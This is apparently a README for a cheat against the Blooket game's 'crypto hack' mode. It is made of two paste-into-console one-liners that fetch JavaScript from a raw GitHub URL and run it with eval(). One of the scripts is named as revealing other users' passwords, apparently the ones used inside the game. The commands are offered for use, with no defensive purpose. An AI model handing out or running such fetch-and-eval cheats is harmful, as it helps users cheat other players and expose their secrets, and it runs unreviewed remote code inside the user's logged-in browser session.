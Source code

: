# crypto

This cheat only works in crypto hack game mode!

# getCrypto.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/Jaydo-Coder/blooket-hack/main/crypto/getCrypto.js").then((res) => res.text().then((t) => eval(t)))
```

# getOtherUsersPassword.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch("https://raw.githubusercontent.com/Jaydo-Coder/blooket-hack/main/crypto/getOtherUsersPassword.js").then((res) => res.text().then((t) => eval(t)))
```
